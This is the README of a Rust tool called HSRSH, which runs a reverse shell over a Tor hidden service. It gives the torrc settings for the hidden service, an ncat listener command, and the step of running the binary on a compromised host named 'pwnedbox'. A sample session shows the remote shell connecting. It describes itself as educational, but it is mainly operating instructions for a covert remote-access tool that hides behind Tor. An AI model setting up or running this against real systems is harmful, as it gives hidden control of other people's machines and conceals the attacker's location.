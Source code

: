 # HSRSH

Hidden Service Reverse Shell, aka HSRSH

This was a quickly written tool for demonstrating a reverse shell over a hidden service all in
one binary and an excuse to play with Rust. Solely for educational purposes.

1. Configure your hidden service on server you will be accepting the shell connection on. Add this to your torrc

  ```
    HiddenServiceDir /var/lib/tor/hidden_service/
    HiddenServicePort 1337 127.0.0.1:1337
  ```

2. Start listener on the hidden service. MAKE SURE TO ONLY ALLOW LOCALHOST CONNECTIONS

  ```
    user@localhost:~$ ncat --allow 127.0.0.1 -nvl 127.0.0.1 -p 1337
    Ncat: Listening on 0.0.0.0:1337
  ```

3. Execute reverse shell binary, it will create a local tor instance and connect to your listener. This takes about 15 seconds.
    ```
    user@pwnedbox:~$ ./hsrsh
    ```

4. If everything is setup properly your shell should connect after about 20 seconds or so assuming the tor and internet connection is stable.

  ```    
    user@localhost:~$ ncat --allow 127.0.0.1 -nvlp 1337
    Ncat: Version 7.60 ( https://nmap.org/ncat )
    Ncat: Generating a temporary 1024-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
    Ncat: Listening on :::1337
    Ncat: Listening on 0.0.0.0:1337
    Ncat: Connection from 127.0.0.1.
    Ncat: Connection from 127.0.0.1:45964.
    user@pwnedbox:~$ uptime
     13:37:02 up 16 days, 46 min,  1 user,  load average: 0.82, 0.93, 1.43
  ```

To do:
    - support tls
    - windows support
    - Better / more Rust-like error handling

Things that I read that helped me out a lot with this:
- https://github.com/isdrupter/onionslicer
- https://stackoverflow.com/questions/48958814/what-is-the-rust-equivalent-of-a-reverse-shell-script-written-in-python
